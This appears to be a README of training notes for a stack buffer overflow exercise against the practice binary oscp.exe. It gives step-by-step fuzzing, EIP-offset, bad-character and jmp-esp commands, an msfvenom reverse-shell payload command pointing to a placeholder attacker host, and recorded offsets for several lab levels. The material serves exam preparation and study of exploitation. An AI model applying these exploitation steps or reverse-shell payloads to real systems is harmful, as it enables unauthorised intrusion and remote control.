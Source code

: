 # Buffer Overflow Prep

### oscp.exe - OVERFLOW1

**Crash Replication and Controlling EIP**

Fuzz the server until it crashes then note the byte value. Use the metasploit tool 
pattern_create.rb to create a cyclic pattern 400 bytes longer than the value that crashed 
the server (2400).

`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2400`

Copy the output and place it in the payload variable in exploit.py.

Run oscp.exe in Immunity Debugger and run exploit.py then, when the server has crashed, run 
`!mona findmsp -distance 2400` to find the EIP offset.

Set the offset in exploit.py to the offset value here:
`EIP contains normal pattern : ... (offset XXXX)`

And set retn to BBBB in exploit.py

Run the exploit and the EIP should be overwritten with 4 B's (42424242)

badchars: `\x00\x07\x08\x2e\x2f\xa0\xa1`

[Fuzzing script](./fuzzing.py)
[Exploit script](./exploit.py)

**Finding bad chars**

Create a bytearray with mona `!mona bytearray -b "\x00"` 
*Note: -b is deprecated and was replaced by -cpb*

Use python to generate a string of bad chars identical to the bytearray

```
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```

Paste the generated badchars into the payload variable in exploit.py and run it.

Copy the ESP register in ImmunityDebugger and use it in the following mona command:
`!mona compare -f C:\mona\oscp\bytearray.bin -a <address>`

A popup called mona memory comparison results should appear with the badchars

Update the bytearray with mona and the exploit payload, removing the badchars from the popup

Repeat the process until the popup returns a status of Unmodified, indicating no more 
badchars remain.

**Finding a Jump Point**

Run `!mona jmp -r esp -cpb <badchars>` to find all jmp esp instructions with addresses that 
don't contain any of the specified badchars

Copy one of the addresses and use it to set the retn variable in exploit.py.

The addresses are in little endian so need to be reversed.

**Generate Payload**

Use msfvenom to generate the payload 
`msfvenom -p windows/shell_reverse_tcp LHOST=<ATTACKER-IP> LPORT=4444 EXITFUNC=thread -b <BADCHARS> -f c`

Update the payload variable to use the shellcode using the following formatting:
```
payload = ("\xba\xbf\xef\xf4\xc3\xd9\xf6\xd9\x74\x24\xf4\x5e\x29\xc9"
...
"\x89")
```

**Prepend NOPs**

Since an encoder was likely used to generate the payload, you will need some space in memory 
for the payload to unpack itself. 

You can do this by setting the padding variable to a string of 16 or more "No Operation" 
(\x90) bytes 
`padding = "\x90" * 16`

**Exploit!**

Start netcat listener on the attacking machine and run exploit.py to gain a shell on the 
target.

### oscp.exe - OVERFLOW2

Fuzzing crashed the target at 700 bytes

EIP offset is 634

Found badchars: "\x00\x23\x3c\x83\xba"

Found jump point: 625011AF 

### oscp.exe - OVERFLOW3

Fuzzing crashed at 1300 bytes

EIP offset is 1274

Badchars are: "\x00\x11\x40\x5f\xb8\xee" 

Found jump point: 62501203
